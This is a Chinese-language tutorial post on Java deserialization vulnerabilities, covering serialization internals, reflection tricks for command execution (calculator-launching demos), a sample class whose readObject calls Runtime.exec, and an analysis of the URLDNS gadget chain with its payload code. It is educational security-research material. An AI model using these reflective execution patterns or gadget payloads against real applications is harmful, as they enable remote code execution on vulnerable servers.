




# Java反序列化漏洞系列-1

# [](#java-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%B3%BB%E5%88%97-1)Java 反序列化漏洞系列-1

## [](#1-%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%8E%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80)1 序列化与反序列化基础

> 序列化是让 Java 对象脱离 Java 运行环境的一种手段，可以有效的实现多平台之间的通信、对象持久化存储。

### [](#11-%E7%9B%B8%E5%85%B3%E6%96%B9%E6%B3%95)1.1 相关方法

`ObjectOutputStream` 类的 `writeObject()` 方法可以实现序列化。按 Java 的标准约定是给文件一个 `.ser` 扩展名。

`ObjectInputStream` 类的 `readObject()` 方法用于反序列化。

### [](#12-%E5%BA%8F%E5%88%97%E5%8C%96%E5%89%8D%E6%8F%90)1.2 序列化前提

实现 `java.io.Serializable` 接口才可被反序列化，而且所有属性必须是可序列化的(用 `transient` 关键字修饰的属性除外，不参与序列化过程)

### [](#13-%E6%BC%8F%E6%B4%9E%E6%88%90%E5%9B%A0)1.3 漏洞成因

序列化和反序列化本身并不存在问题。但当输入的反序列化的数据可被用户控制，那么攻击者即可通过构造恶意输入，让反序列化产生非预期的对象，在此过程中执行构造的任意代码。

反序列化 payload 生成工具：[https://github.com/frohoff/ysoserial/](https://github.com/frohoff/ysoserial/)

## [](#2-%E6%BC%8F%E6%B4%9E%E5%9F%BA%E6%9C%AC%E5%8E%9F%E7%90%86)2 漏洞基本原理

### [](#21-%E5%BA%8F%E5%88%97%E5%8C%96)2.1 序列化

序列化后的数据开头包含两字节的魔术数字：`ACED`。接下来是两字节的版本号 `0005` 的数据。此外还包含了类名、成员变量的类型和个数等。


序列化的数据流以魔术数字和版本号开头，这个值是在调用 `ObjectOutputStream` 序列化时，由 `writeStreamHeader` 方法写入：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```java<br>protected void writeStreamHeader() throws IOException {<br>  //STREAM_MAGIC (2 bytes) 0xACED <br>  bout.writeShort(STREAM_MAGIC);<br>  //STREAM_VERSION (2 bytes) 5<br>  bout.writeShort(STREAM_VERSION);<br>}<br>``` |

### [](#22-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96)2.2 反序列化

Java程序中类 `ObjectInputStream` 的 `readObject` 方法用来将数据流反序列化为对象。

`readObject()` 方法在反序列化漏洞中它起到了关键作用。如果 `readObject()` 方法被重写，反序列化该类时调用便是重写后的 `readObject()` 方法。如果该方法书写不当的话就有可能引发恶意代码的执行。

如：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```java<br>public class Evil implements Serializable {<br>    public String cmd;<br>    private void readObject(java.io.ObjectInputStream stream) throws Exception {<br>        stream.defaultReadObject();<br>        Runtime.getRuntime().exec(cmd);<br>}<br>``` |

但是，实际中反序列化漏洞的构造比较复杂，而且需要借助 Java 的一些特性，如 Java 的反射。

## [](#3-java-%E5%8F%8D%E5%B0%84)3 Java 反射

### [](#31-java-%E5%8F%8D%E5%B0%84%E5%AE%9A%E4%B9%89)3.1 Java 反射定义

> 对于任意一个类，都能够得到这个类的所有属性和方法；对于任意一个对象，都能够调用它的任意方法和属性；这种动态获取信息以及动态调用对象方法的功能称为 java 语言的反射机制。

反射是⼤多数语⾔⾥都存在的特性，对象可以通过反射获取它的类，类可以通过反射拿到所有⽅法（包括私有），拿到的⽅法可以直接调用。总之，通过反射，可以将 Java 这种静态语⾔附加上**动态特性**。

Java 语言虽然不像 PHP 那样存在许多灵活的**动态特性**，但是通过反射，可以达到一定的效果，如下面这段代码，在传入参数值不确定的情况下，该函数的具体作用是未知的。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```java<br>public void execute(String className, String methodName) throws Exception {<br>    Class clazz = Class.forName(className);<br>    clazz.getMethod(methodName).invoke(clazz.newInstance());<br>}<br>``` |

在 Java 中定义的一个类本身也是一个对象，即 `java.lang.Class` 类的实例，这个实例称为类对象

-   类对象表示正在运行的 Java 应用程序中的类和接口
-   类对象没有公共构造方法，由 Java 虚拟机自动构造
-   类对象用于提供类本身的信息，比如有几种构造方法， 有多少属性，有哪些普通方法

要得到类的方法和属性，首先就要得到该类对象

### [](#32-%E8%8E%B7%E5%8F%96%E7%B1%BB%E5%AF%B9%E8%B1%A1)3.2 获取类对象

假设现在有一个 Person 类：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```java<br>public class Person implements Serializable {<br>    private String name;<br>    private Integer age;<br><br>    public Person(String name, Integer age) {<br>        this.name = name;<br>        this.age = age;<br>    }<br>    public void setName(String name) {<br>        this.name = name;<br>    }<br>    public String getName() {<br>        return this.name;<br>    }<br>    public Integer getAge() {<br>        return age;<br>    }<br>    public void setAge(Integer age) {<br>        this.age = age;<br>    }<br><br>}<br>``` |

要获取该类对象一般有三种方法：

-   `class.forName("com.geekby.Person")`
-   `Person.class`
-   `new Person().getClass()`

最常用的是第一种，通过一个字符串即类的全路径名就可以得到类对象。

### [](#33-%E5%88%A9%E7%94%A8%E7%B1%BB%E5%AF%B9%E8%B1%A1%E5%88%9B%E5%BB%BA%E5%AF%B9%E8%B1%A1)3.3 利用类对象创建对象

与直接 `new` 创建对象不同，反射是先拿到类对象，然后通过类对象获取构造器对象，再通过构造器对象创建一个对象。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```java<br>package com.geekby;<br><br>import java.lang.reflect.*;<br><br>public class CreateObject {<br>    public static void main(String[] args) throws Exception {<br>        Class PersonClass = Class.forName("com.geekby.Person");<br>        Constructor constructor = PersonClass.getConstructor(String.class, Integer.class);<br>        Person p = (Person)constructor.newInstance("Geekby", 24);<br><br>        System.out.println(p.getName());<br>    }<br>}<br>``` |

| 方法  | 说明  |
| --- | --- |
| getConstructor(Class…<?> parameterTypes) | 获得该类中与参数类型匹配的**公有**构造方法 |
| getConstructors() | 获得该类的所有公有构造方法 |
| getDeclaredConstructor(Class…<?> parameterTypes) | 获得该类中与参数类型匹配的构造方法 |
| getDeclaredConstructors() | 获得该类所有构造方法 |

### [](#34-%E5%88%A9%E7%94%A8%E5%8F%8D%E5%B0%84%E8%B0%83%E7%94%A8%E6%96%B9%E6%B3%95)3.4 利用反射调用方法

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```java<br>public class CallMethod {<br>    public static void main(String[] args) throws Exception {<br>        Class PersonClass = Class.forName("com.geekby.Person");<br>        Constructor constructor = PersonClass.getConstructor(String.class, Integer.class);<br>        Person p = (Person)constructor.newInstance("Geekby", 24);<br>        Method m = PersonClass.getDeclaredMethod("setName", String.class);<br>        m.invoke(p, "newGeekby");<br><br>        System.out.println(p.getName());<br>    }<br>}<br>``` |

| 方法  | 说明  |
| --- | --- |
| getMethod(String name, Class…<?> parameterTypes) | 获得该类某个公有的方法 |
| getMethods() | 获得该类所有公有的方法 |
| getDeclaredMethod(String name, Class…<?> parameterTypes) | 获得该类某个方法 |
| getDeclaredMethods() | 获得该类所有方法 |

### [](#35-%E9%80%9A%E8%BF%87%E5%8F%8D%E5%B0%84%E8%AE%BF%E9%97%AE%E5%B1%9E%E6%80%A7)3.5 通过反射访问属性

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```java<br>public class AccessAttribute {<br>    public static void main(String[] args) throws Exception {<br>        Class PersonClass = Class.forName("com.geekby.Person");<br>        Constructor constructor = PersonClass.getConstructor(String.class, Integer.class);<br>        Person p = (Person) constructor.newInstance("Geekby", 24);<br><br>        // name是私有属性，需要先设置可访问<br>        Field f = PersonClass.getDeclaredField("name");<br>        f.setAccessible(true);<br>        f.set(p, "newGeekby");<br>        System.out.println(p.getName());<br>    }<br>}<br>``` |

| 方法  | 说明  |
| --- | --- |
| getField(String name) | 获得某个公有的属性对象 |
| getFields() | 获得所有公有的属性对象 |
| getDeclaredField(String name) | 获得某个属性对 |
| getDeclaredFields() | 获得所有属性对象 |

### [](#36-%E5%88%A9%E7%94%A8%E5%8F%8D%E5%B0%84%E6%89%A7%E8%A1%8C%E4%BB%A3%E7%A0%81)3.6 利用反射执行代码

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```java<br>public class Exec {<br>    public static void main(String[] args) throws Exception {<br>      <br>      //java.lang.Runtime.getRuntime().exec("calc");<br>      Class runtimeClass = Class.forName("java.lang.Runtime");<br>      // getRuntime是静态方法，invoke时不需要传入对象<br>      Object runtime = runtimeClass.getMethod("getRuntime").invoke(null);<br>      runtimeClass.getMethod("exec", String.class).invoke(runtime,"open /System/Applications/Calculator.app");<br>    }<br>}<br>``` |

以上代码中，利用了 Java 的反射机制把我们的代码意图都利用字符串的形式进行体现，使得原本应该是字符串的属性，变成了代码执行的逻辑，而这个机制也是后续的漏洞使用的前提。

tips

invoke 的作用是执行方法，它的第一个参数是:

-   如果该方法为普通方法，那么第一个参数是类对象
    
-   如果该方法为静态方法，那么第一个参数是类或 null
    

此外，另一种常用的执行命令的方式 `ProcessBuilder`，通过反射来获取其构造函数，然后调用 `start()` 来执行命令:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```java<br>Class clazz = Class.forName("java.lang.ProcessBuilder");<br>((ProcessBuilder)clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe"))).start();<br>``` |

查看文档可知：`ProcessBuilder` 有两个构造函数：

-   `public ProcessBuilder(List<String> command)`
-   `public ProcessBuilder(String... command)`

上面通过反射的调用方式使用了第一种形式的构造函数。

但是，上述的 Payload 用到了 Java 里的强制类型转换，有时候我们利用漏洞的时候(在表达式上下文中)是没有这种语法的。因此，仍需利用反射来执行 `start` 方法。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```java<br>Class clazz = Class.forName("java.lang.ProcessBuilder");<br><br>clazz.getMethod("start").invoke(clazz.getConstructor(List.class).newInstance(Arrays.asList("open", "/System/Applications/Calculator.app")));<br>``` |

上述的第二种构造函数如何调用呢？

对于可变长参数，Java 在编译的时候会编译成一个数组，也就是说，如下这两种写法在底层是等价的：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```java<br>public void hello(String[]names){}<br>public void hello(String...names){}<br>``` |

因此，对于反射来说，如果目标函数里包含可变长参数，传入数组即可。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```java<br>Classclazz = Class.forName("java.lang.ProcessBuilder");<br>clazz.getConstructor(String[].class)<br>``` |

在调用 `newInstance` 的时候，因为该函数本身接收的是一个可变长参数：



传给 `ProcessBuilder` 的也是一个可变长参数，二者叠加为一个二维数组，所以整个 Payload 如下:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```java<br>Class clazz = Class.forName("java.lang.ProcessBuilder");<br><br>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{"open", "/System/Applications/Calculator.app"}}));<br>``` |

### [](#37-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B8%8E%E5%8F%8D%E5%B0%84)3.7 反序列化漏洞与反射

在安全研究中，使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。比如，上下文中如果只有 Integer 类型的数字，如何获取到可以执行命令的 Runtime 类：

比如可以这样（伪代码）：`1.getClass().forName("java.lang.Runtime")`

## [](#4-dnsurl-gadget-%E5%88%86%E6%9E%90)4 DNSURL gadget 分析

### [](#41-%E8%B0%83%E7%94%A8%E9%93%BE)4.1 调用链

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br> *     HashMap.readObject()<br> *       HashMap.putVal()<br> *         HashMap.hash()<br> *           URL.hashCode()<br>``` |

payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```java<br>HashMap ht = new HashMap(); <br>URL u = new URL("dnslog");<br>// 这里在序列化时不发送请求，防止在反序列化探测时误判<br>Class c = u.getClass();<br>Field f = c.getDeclaredField("hashCode");<br>f.setAccessible(true);<br>f.set(u, 1234);<br>ht.put(u, "Geekby");<br>// 把 hashcode 改为 -1，还原<br>f.set(u, -1);<br>``` |

### [](#42-%E5%88%86%E6%9E%90)4.2 分析

首先查看 HashMap 的 ReadObject 方法



`339` 行：在调用 putVal 方法之前会调用 hash 方法，查看其源代码：



`899 - 903` 行：如果 `key == null`，hashcode 赋值为 0。key 存在的话，则调用 key 的 hashcode 方法。

在本 gadget 中，key 为 URL 对象。接着，跟进 URL 的 hashCode 方法。



URL 类的 hashCode 很简单。如果 hashcode 不为 -1，则返回 hashcode。在序列化构造 payload 的时候，需要设置 hashcode 为 -1 的原因，就是防止进入到 `hashcode` 方法中，进而发送 DNS 请求，影响判断。

当 `hashcode==-1` ，调用 handler 的 hashCode 方法。该类的定义在 URL 的构造函数中，主要是根据 scheme 去决定用什么类做 handler。在这里是 URLStreamHandler 类，跟进 URLStreamHandler 的 hashcode 方法。


在第 359 行，调用 `getHostAddress` 获取域名对应的 IP。


DNSURL 链便是利用该处，来触发 DNSLog 发送请求。

## [](#%E5%8F%82%E8%80%83)参考

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)

[Java反序列化漏洞原理解析](https://xz.aliyun.com/t/6787#toc-11)

[Java反序列化漏洞从入门到关门](https://www.freebuf.com/articles/web/271275.html)

[从0开始学Java反序列化漏洞](https://yinwc.github.io/2020/02/08/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e/)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Java反序列化利用链补全计划](https://0range228.github.io/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92/)
